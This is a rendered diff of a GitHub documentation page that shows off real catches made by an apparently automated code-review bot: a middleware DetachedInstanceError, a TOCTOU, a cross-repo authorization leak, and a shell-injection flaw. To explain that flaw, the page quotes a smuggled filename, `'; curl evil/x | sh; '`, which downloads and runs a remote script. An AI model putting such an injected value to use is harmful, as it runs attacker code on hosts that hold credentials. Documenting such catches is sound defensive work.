

Before and after one commit to plow-pbc/knightwatch-reviewer, a Markdown page: docs/EXAMPLES.md, 3 parts joined by grey strips. Shown at 84% size. GitHub-like rendering; pictures changed too: docs/examples/plow544-connector-used.png (added); blank space fills up the shorter version.

```diff
--- a/docs/EXAMPLES.md
+++ b/docs/EXAMPLES.md
@@ -2,8 +2,21 @@
 
 A small gallery of reviews where knightwatch caught something genuinely non-obvious — the kind of failure mode a careful human reader would have shipped.
 
-Each entry links to the original review comment, embeds a screenshot of what the bot posted, and explains why the catch matters. Ordered from most to least impressive.
+Each entry links to the original review comment, embeds a screenshot of what the bot posted, and explains why the catch matters. Ordered from most to least impressive. The first three are real production catches in [`cncorp/plow`](https://github.com/cncorp/plow) where the author (`@plonkus`) accepted and shipped the fix; the rest are catches the bot made on its own repo.
 
 ---
 
-## 1. Shell injection via `eval` of PR-controlled filenames
+## 1. `connector_used` middleware silently drops events on real auth routes
+
+**Review:** [cncorp/plow#544 — DetachedInstance on `user.channels`](https://github.com/cncorp/plow/pull/544#issuecomment-4340939339) · *fix confirmed in [follow-up review](https://github.com/cncorp/plow/pull/544#issuecomment-4345823886)*
+
+![plow#544 — connector_used middleware DetachedInstance](examples/plow544-connector-used.png)
+
+A new PostHog `connector_used` event passes the test suite but would silently fail in production. The bot traced the bug across five sources:
+
+- `main.py` — middleware runs *after* `call_next` returns, so the request-scoped SQLAlchemy session is already closed
+- `auth.py` — `lookup_session()` only preloads the `user` row, not `user.channels`
+- `analytics.py` — the `$set` payload then dereferences `user.channels`, triggering `DetachedInstanceError`
+- `connectors/gmail/calendar_router.py` — the live Calendar route never triggers preload elsewhere
+- `test_connector_used_middleware.py` — the existing test masks the bug because it injects a synthetic `request.state.auth_user` with channels prepopulated
+
@@ -14,11 +62,11 @@ Each entry links to the original review comment, embeds a screenshot of what the
 
 The new dead-code specialist runs detection commands assembled from filenames inside the PR's diff, then passes the assembled string through `eval` in `DEAD_CODE_CMDS`. The bot caught that a filename like `'; curl evil/x | sh; '` would execute on the reviewer's host with its `gh` credentials and local repo access.
 
-Why it tops the list: this is direct RCE on the reviewer's host with full GitHub auth. The catch is non-obvious because the *outer* command (`grep`, `find`) looks safe — the injection seam is in the substring being interpolated, which only matters once you trace the data path back to PR-controlled filenames.
+Why impressive: this is direct RCE on the reviewer's host with full GitHub auth. The catch is non-obvious because the *outer* command (`grep`, `find`) looks safe — the injection seam is in the substring being interpolated, which only matters once you trace the data path back to PR-controlled filenames.
 
 ---
 
-## 2. TOCTOU rewriting `origin/<default_branch>` mid-review
+## 5. TOCTOU rewriting `origin/<default_branch>` mid-review
 
 **Review:** [knightwatch-reviewer#29 — `.knightwatch` config TOCTOU](https://github.com/srosro/knightwatch-reviewer/pull/29#issuecomment-4357168423)
 
@@ -60,13 +108,13 @@ So in the per-PR workdir, `origin/<BASE_REF>` is silently absent, the diff snaps
 
 ![PR #25 — cross-repo search auth leak](examples/03-pr25-cross-repo-leak.png)
 
-A separate finding inside the same review body as #1: the dead-code specialist greps across canonical's local clones, which share an object database with sibling repos. Authorization is checked only against the *reviewed* repo, not against each sibling whose lines might be returned.
+A separate finding inside the same review body as #4: the dead-code specialist greps across canonical's local clones, which share an object database with sibling repos. Authorization is checked only against the *reviewed* repo, not against each sibling whose lines might be returned.
 
 A collaborator with access to repo A could cause private sibling-repo B's paths and lines to be quoted into A's review. Classic confused-deputy across what looks like one trust boundary but is actually two.
 
 ---
 
-## 6. Aborted aggregator outputs staged as prior reviews
+## 9. Aborted aggregator outputs staged as prior reviews
 
 **Review:** [knightwatch-reviewer#15 — `prior-reviews.md` from aborted runs](https://github.com/srosro/knightwatch-reviewer/pull/15#issuecomment-4344887837)
 
```
Also changed, not shown: other parts of docs/EXAMPLES.md (+41 -6 lines), docs/examples/plow487-iam-alembic.png (added), docs/examples/plow552-vm-probe.png (added).
